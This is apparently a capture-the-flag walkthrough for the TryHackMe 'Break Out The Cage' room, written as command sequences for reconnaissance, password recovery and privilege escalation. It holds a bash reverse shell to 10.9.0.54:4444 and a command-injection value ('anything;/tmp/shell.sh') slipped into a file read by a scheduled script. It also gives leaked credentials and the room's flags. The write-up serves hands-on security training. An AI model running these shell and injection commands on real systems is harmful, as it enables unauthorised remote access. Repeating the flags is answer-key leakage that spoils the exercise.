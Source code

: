 # <div align="center">[Break Out The Cage](https://tryhackme.com/r/room/breakoutthecage1)</div>
<div align="center">Help Cage bring back his acting career and investigate the nefarious goings on of his agent!</div>

<div align="center">
<img src="" height="200"></img>
</div>

## Task 1. Investigate!

Let's find out what his agent is up to....

### What is Weston's password?
```
nmap -sC -sV <IP>
ftp <IP>
ls -la
get dad_tasks
cat dad_tasks | base64 -d
```
```
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```
### What's the user flag?
```
ssh weston@<IP>
weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes
sudo -l
ls -l /usr/bin/bees
sudo /usr/bin/bees 
find / -type f -user cage 2>/dev/null
cat /opt/.dads_scripts/spread_the_quotes.py
cat /opt/.dads_scripts/.files/.quotes
nc -nlvp 4444

cat > /tmp/shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.9.0.54/4444 0>&1
EOF

chmod +x /tmp/shell.sh
printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
cat Super_Duper_Checklist
```

```
THM{M37AL_0R_P3N_T35T1NG}
```
### What's the root flag?
```
cat email_backup/*
su root
Password: cageisnotalegend
ls -la
cd email_backup
cat email_1
```
```
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```
